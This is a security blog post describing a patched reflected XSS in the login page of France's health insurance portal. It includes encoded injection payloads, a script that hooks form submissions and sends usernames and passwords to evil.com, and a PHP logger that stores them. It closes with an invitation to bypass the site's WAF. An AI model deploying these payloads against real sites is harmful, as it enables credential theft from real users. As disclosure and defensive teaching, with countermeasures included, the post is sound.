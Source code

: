 ```yaml
---
layout: post
title:  "A fun case of XSS and other web concepts"
date:   2017-07-25
categories: web
---
```

Hello folks,  
  
I would like to share with you a practical case of reflected XSS while i was looking at my national health service account. Right now the XSS has been patched (we have an efficient dedicated national service where we can report such issues).  
  
**What is the issue:**  
A reflected [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) in the login field at the authentication page from the website https://assure.ameli.fr where all french citizen are consulting their social security account. Some digits are required but setting some alphacharacters as login will return the string in uppercase.  
  
**Where is the issue**  
So i set:  
![image1]({{ site.url }}/public/images/xss-practical-case/image1.png)  
  
And i got:  
```html
<form name="connexionCompteForm" id="connexioncompte_2connexionCompteForm" method="post" action="https://assure.ameli.fr:443/PortailAS/appmanager/PortailAS/assure?_nfpb=true&amp;_windowLabel=connexioncompte_2&amp;connexioncompte_2_actionOverride=%2Fportlets%2Fconnexioncompte%2Fvalidationconnexioncompte&amp;_pageLabel=as_login_page" class="r_cnx_form">
...
<input id="connexioncompte_2nir_as" type="text" value="THEPOSTLOGIN" maxlength="13" size="13" placeholder="Mon numéro de sécurité sociale" title="Mon numéro de sécurité sociale" tabindex="3" name="connexioncompte_2numSecuriteSociale" />
...
</form>
```  
  
Let's try something else with the login **toto<>"'();/\:**:  
```
<input id="connexioncompte_2nir_as" type="text" value="TOTO<>"'();/\" maxlength="13" ...
```
  
No escaping, no sanitizing or HTML encoding but we will have to deal with UPPERCASE. HTML is not case sensitive but javascript is, so we will do some HEX encoding for the javascript part.  
  
**First payload:**  
We can test the XSS thanks to this payload (alert):  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=" /><IMG SRC=X ONERROR=&#x61;&#x6C;&#x65;&#x72;&#x74;(&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x64;&#x6F;&#x6D;&#x61;&#x69;&#x6E;) hidden><nimp "&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```
  
Full payload url encoded:  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=%22%20%2F%3E%3CIMG%20SRC%3DX%20ONERROR%3D%26%23x61%3B%26%23x6C%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B(%26%23x64%3B%26%23x6F%3B%26%23x63%3B%26%23x75%3B%26%23x6D%3B%26%23x65%3B%26%23x6E%3B%26%23x74%3B%26%23x2E%3B%26%23x64%3B%26%23x6F%3B%26%23x6D%3B%26%23x61%3B%26%23x69%3B%26%23x6E%3B)%20hidden%3E%3Cnimp%20%22&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```
  
*But wait... you process a GET request and you were talking about a form with POST method ?*  
Yes, there but there is no server-side filter on the specific POST method.  
  
So what do we have?  
![image2]({{ site.url }}/public/images/xss-practical-case/image2.png)  
  
It works because i'm using Firefox, IE and Chrome embed a reflected XSS auditor and will prevent this kind of javascript execution. Back to the javascript part, now we will just call our own javascript file. With our next payload, we will take care to keep the webpage as it is (no error message, keeping placeholder, ...).  
  
**Second payload:**  
```
" name="connexioncompte_2numSecuriteSociale" placeholder="&#x4d;&#x6f;&#x6e;&#x20;&#x6e;&#x75;&#x6d;&#xe9;&#x72;&#x6f;&#x20;&#x64;&#x65;&#x20;&#x73;&#xe9;&#x63;&#x75;&#x72;&#x69;&#x74;&#xe9;&#x20;&#x73;&#x6f;&#x63;&#x69;&#x61;&#x6c;&#x65;" /><script src='https://evil.com/poc/poc.js'></script><nimp "
```  
  
Full payload url encoded:  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=%22%20name%3D%22connexioncompte_2numSecuriteSociale%22%20placeholder%3D%22%26%23x4d%3B%26%23x6f%3B%26%23x6e%3B%26%23x20%3B%26%23x6e%3B%26%23x75%3B%26%23x6d%3B%26%23xe9%3B%26%23x72%3B%26%23x6f%3B%26%23x20%3B%26%23x64%3B%26%23x65%3B%26%23x20%3B%26%23x73%3B%26%23xe9%3B%26%23x63%3B%26%23x75%3B%26%23x72%3B%26%23x69%3B%26%23x74%3B%26%23xe9%3B%26%23x20%3B%26%23x73%3B%26%23x6f%3B%26%23x63%3B%26%23x69%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%22%20%2F%3E%3Cscript%20src%3D%27https%3A%2F%2Fevil.com%2Fpoc%2Fpoc.js%27%3E%3C%2Fscript%3E%3Cnimp%20%22&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```  
   
On our apache we are creating the web tree *POC/POC.JS* (scheme and domain name are not case sensitive). But does a little bird sing the word CORS (Cross-Origin Resource Sharing)?  
  
Here are some examples of resources which may be embedded cross-origin ([https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)):  
 - JavaScript with ```<script src="..."></script>```. Error messages for syntax errors are only available for same-origin scripts.
 - CSS with ```<link rel="stylesheet" href="...">```. Due to the relaxed syntax rules of CSS, cross-origin CSS requires a correct Content-Type header. Restrictions vary by browser: IE, Firefox, Chrome, Safari (scroll down to CVE-2010-0051) and Opera.
 - Images with ```<img>```. Supported image formats include PNG, JPEG, GIF, BMP, SVG, ...
 - Media files with ```<video>``` and ```<audio>```.
 - Plug-ins with ```<object>```, ```<embed>``` and ```<applet>```.
 - Fonts with ```@font-face```. Some browsers allow cross-origin fonts, others require same-origin fonts.
 - Anything with ```<frame>``` and ```<iframe>```. A site can use the X-Frame-Options header to prevent this form of cross-origin interaction.
  
But in fact whatever... we are owning the web server we would be able to add if it was necessary the response header ```access-control-allow-origin: *``` for any ressources.  
  
But what kind of cool javascript payload can we inject? (knowing that the JSESSIONID cookie has the flag HttpOnly so not accessible via javascript).  
  
![image3]({{ site.url }}/public/images/xss-practical-case/image3.png)  
  
We will add a callback function that will be executed once the web page forms will be submitted (allowing us to capture the credentials). Check [https://github.com/phackt/pentest/tree/master/exploits/xss](https://github.com/phackt/pentest/tree/master/exploits/xss) for source code.  
  
**POC.JS**:  
```javascript
window.onload = function () {
	for(var i=0; i<document.forms.length; i++){
	  	document.forms[i].addEventListener("submit", function() {
	  		for(e=0; e<this.elements.length; e++){
	  			keys = "[name:" + this.elements[e].name + ",value:" + this.elements[e].value + ",type:" + this.elements[e].type + "]";
	  			new Image().src = 'https://evil.com/key.php?c='+keys;
	  		}
    	}, false);
	}
}
```
  
**key.php**:  
```php
<?php
if(!empty($_GET['c'])) {
    $logfile = fopen('data.txt', 'a+');
    fwrite($logfile, $_GET['c']."\n");
    fclose($logfile);
}
?>
```  
  
So suppose you are receiving a link which exploits the XSS vulnerability and you innocently enter your credentials to check your account, the attacker will receive:  
```
[name:CONNEXIONCOMPTE_2NUMSECURITESOCIALE,value:1234567890123,type:text]
[name:connexioncompte_2codeConfidentiel,value:89769874,type:password]
[name:connexioncompte_2actionEvt,value:connecter,type:hidden]
[name:submit,value:Valider,type:submit]
```  
  
This kind of vulnerability could be part of a phishing campaign which encourages people to log in by clicking on the malicious link.  
  
**COUNTERMEASURES**:  
 - HTML Encoding (HTML entities and numeric character references) - [https://en.wikipedia.org/wiki/Character_encodings_in_HTML](https://en.wikipedia.org/wiki/Character_encodings_in_HTML)
 - Sanitizing
 - Escaping
 - White-listing
 - Explicit X-XSS-Protection header ([https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/X-XSS-Protection](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/X-XSS-Protection))
 - Only POST requests for sensitive operations  
  
Blocking all cross domains requests via a Content Security Policy rule ([https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) may be not relevant because a lot of these ressources are legitimate on a website. However we can do some subtle CSP rules in order to allow only what is needed.  
But if a web site administrator wants all content to come from the site's own origin (this excludes subdomains):  
```
Content-Security-Policy: default-src 'self'
```
  
**UPDATE 21/09/2017**:  
Apparently some waf is now blacklisting some malicious strings:  
```bash
wafw00f https://assure.ameli.fr/
...
The site https://assure.ameli.fr/ is behind a F5 BIG-IP APM
```  
  
Unfortunately the special characters are still not html encoded (test with ```'';!--"<XSS>=&{()}```).  
Feel free to try to bypass it and let me know.  
  
Web applications are really interesting because of all the concepts you have to deal with.  
  
Hope you enjoyed.  
  
Phackt.
